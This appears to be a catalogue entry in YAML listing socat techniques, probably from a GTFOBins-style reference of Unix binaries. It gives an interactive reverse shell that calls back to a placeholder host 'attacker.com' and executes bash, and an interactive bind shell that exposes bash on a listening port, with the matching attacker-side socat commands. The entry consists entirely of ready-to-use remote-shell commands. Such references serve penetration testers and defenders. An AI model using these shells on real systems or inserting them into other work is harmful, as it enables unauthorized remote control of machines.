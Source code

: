 ```yaml
---
functions:
  reverse-shell-interactive:
    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socat tcp-connect:$RHOST:$RPORT exec:"bash -li",pty,stderr,setsid,sigint,sane
  bind-shell-interactive:
    - description: Run <code>socat FILE:`tty`,raw,echo=0 TCP:target.com:12345</code> on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
---
```

